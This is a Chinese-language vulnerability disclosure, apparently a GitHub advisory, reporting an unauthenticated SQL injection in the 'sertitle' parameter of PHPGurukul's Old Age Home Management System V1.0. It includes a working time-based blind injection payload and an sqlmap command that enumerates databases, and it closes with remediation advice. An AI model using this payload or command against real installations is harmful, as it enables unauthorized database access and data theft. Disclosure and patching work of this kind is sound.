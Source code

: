 # PHPGurukul 养老院管理系统 V1.0 /admin/add-services.php SQL 注入

# 受影响产品的名称

- 养老院管理系统

## 供应商主页

- https://phpgurukul.com/old-age-home-management-system-using-php-and-mysql/

# 受影响或已修复的版本

## 提交者

- 0xabandon

## 漏洞文件

- /admin/add-services.php

## 版本

- V1.0

## 软件链接

- https://phpgurukul.com/projects/Old-Age-Home-MS-using-PHP.zip

# 问题类型

## 漏洞类型

- SQL 注入

## 根本原因

- 在“养老院管理系统“项目中的“/admin/add-services.php”文件中发现一个 SQL 注入漏洞。导致此问题的原因是攻击者从参数“sertitle”中注入恶意代码，并直接在 SQL 查询中使用，而无需进行适当的清理或验证。这允许攻击者伪造输入值，从而操纵 SQL 查询并执行未经授权的操作。

## 影响

- 攻击者可利用此 SQL 注入漏洞，实现未经授权的数据库访问、敏感数据泄漏、数据篡改、全面系统控制，甚至服务中断，对系统安全和业务连续性构成严重威胁。

# 描述

- 在对 “养老院管理系统 ”进行安全检查时，发现“/admin/add-services.php”文件中存在严重的 SQL 注入漏洞。该漏洞源于 “sertitle”参数的用户输入验证不足，允许攻击者注入恶意 SQL 查询。因此，攻击者可在未经授权的情况下访问数据库、修改或删除数据以及访问敏感信息。需要立即采取补救措施，以确保系统安全和保护数据完整性。

# 利用此漏洞无需登录或授权

# 漏洞详情和 POC

## 漏洞:

- “sertitle”参数

## Payload:

```makefile
Parameter: sertitle (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sertitle=11' AND (SELECT 9461 FROM (SELECT(SLEEP(5)))bvmh) AND 'rKQK'='rKQK&serdes=11&submit=
```

## 以下是使用 sqlmap 工具测试和运行时获得的一些具体信息的截图：

```bash
    sqlmap -u "http://10.20.33.25/oahms/admin/add-services.php" --data="sertitle=11&serdes=11&submit=" --dbs
```

![Image](https://github.com/user-attachments/assets/9dc48aa2-22e7-46c0-ac68-9ae18e796dcf)

# 修复建议

1. **使用准备语句和参数绑定：**
   准备语句可防止 SQL 注入，因为它们将 SQL 代码与用户输入数据分开。使用准备语句时，用户输入的值将被视为纯数据，不会被解释为 SQL 代码。

2. **输入验证和过滤：**
   严格验证和过滤用户输入数据，确保其符合预期格式。

3. **尽量减少数据库用户权限：**
   确保用于连接数据库的账户具有最低必要权限。避免在日常操作中使用具有高级权限的账户（如 “root ”或 “admin”）。

4. **定期安全审计：**
   定期进行代码和系统安全审计，及时发现并修复潜在的安全漏洞。